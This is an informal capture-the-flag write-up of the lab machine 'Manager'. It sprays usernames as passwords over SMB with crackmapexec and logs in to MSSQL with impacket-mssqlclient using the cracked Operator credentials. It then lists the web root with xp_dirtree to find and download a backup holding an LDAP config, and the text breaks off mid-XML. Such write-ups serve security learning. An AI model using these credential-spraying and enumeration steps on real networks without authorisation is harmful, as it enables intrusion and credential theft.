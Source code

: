 I found now some users, now i will copy `SidTypeUser` on a `users.txt` then crack password
Let's convert the list of users to lower case and write the result to the `passwords.txt` file.
```                                      
administrator
zhong
cheng
ryan
raven
jinwoo
chinhae
operator
```
```
└─# crackmapexec smb manager.htb -u sidtypeusers.txt -p sidtypepass.txt
└─# crackmapexec smb manager.htb -u sidtypeusers.txt -p sidtypepass.txt
SMB         manager.htb     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         manager.htb     445    DC01             [-] Connection Error: The NETBIOS connection with the remote host timed out.
SMB         manager.htb     445    DC01             [-] manager.htb\Operator:jinwoo STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [-] manager.htb\Operator:chinhae STATUS_LOGON_FAILURE 
SMB         manager.htb     445    DC01             [+] manager.htb\Operator:operator 

```
after a long of failure i just `operator` user password. also The Operator user has access to `MSSQL`on port 1433/tcp
i will use `impacket-mssqlclient` to access on it
I do `-h` flag to get help on it
```
└─# impacket-mssqlclient -p 1433 -windows-auth -dc-ip 10.10.11.236 manager.htb/Operator:operator@manager.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL> 
```

**Explore the Ms-SQL**
I use this ressources to navigate on it:
`https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server`
List directory
The `xp_dirtree` procedure in SQL Server is used to list the files and subdirectories in a specified directory. The command you provided attempts to use `xp_dirtree` to list the files and subdirectories in the `C:\inetpub\wwwroot\` directory.
```
SQL> EXEC xp_dirtree 'C:\inetpub\wwwroot\', 0, 1;
website-backup-27-07-23-old.zip
```
i found an backup file i need to get it
Now i will just download because it was on the root web directory
`http://manager.htb/website-backup-27-07-23-old.zip`
when i extract it i found :  
`.inflating: .old-conf.xml`
when i open it
```
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
```